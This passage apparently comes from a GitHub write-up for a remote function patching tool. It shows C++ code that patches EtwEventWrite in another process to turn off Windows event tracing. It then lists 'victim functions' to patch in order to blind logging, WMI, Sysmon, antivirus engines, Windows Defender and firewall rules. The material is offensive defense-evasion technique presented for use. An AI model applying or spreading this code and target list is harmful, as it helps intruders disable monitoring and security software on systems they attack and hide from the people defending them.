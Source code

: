 ```cpp
        return 1;
    }

    // Calculate the remote function address
    LPVOID remoteFunctionAddress = (LPVOID)((uintptr_t)moduleBase + ((uintptr_t)localFunctionAddress - (uintptr_t)hNtdll));

    // Patch the remote function to disable EtwEventWrite
    if (PatchRemoteFunction(pid, remoteFunctionAddress)) {
        printf("ETW disabled in remote process %d\n", pid);
    }
    else {
        printf("Failed to disable ETW in remote process %d\n", pid);
    }

    CloseHandle(hProcess);
    return 0;
}
```

Result:

![image](https://github.com/S12cybersecurity/RemoteFunctionPatcher/assets/79543461/6f537f0f-545c-4bcd-9537-439c5dbfcdad)

**Interesting victim functions to patch:**
### Logging and Monitoring Functions

1. **Event Tracing for Windows (ETW)**:
    
    - `EtwEventWrite`: To prevent event logging.
2. **Windows Management Instrumentation (WMI)**:
    
    - `IWbemServices::ExecQuery`: To avoid detection via WMI queries.
3. **Sysmon (System Monitor)**:
    
    - `SysmonService`: To disable or alter the Sysmon service that monitors and logs system events.

### Security and Protection Functions

1. **Antivirus and Security Software**:
    
    - `AVASTEngineScan`: Specific antivirus engine functions.
    - `KasperskyProtect`: Functions related to specific antivirus protections.
2. **Windows Defender**:
    
    - `MpScanStart`: Windows Defender scan initiation functions.
    - `WdFilter.sys`: The Windows Defender filter driver.
3. **Firewall and Network Policies**:
    
    - `FWPolicy2::EnableRuleGroup`: To disable firewall rules.
    - `Netsh`: Command to configure and display the status of network components.

### Integrity and Authenticity Functions
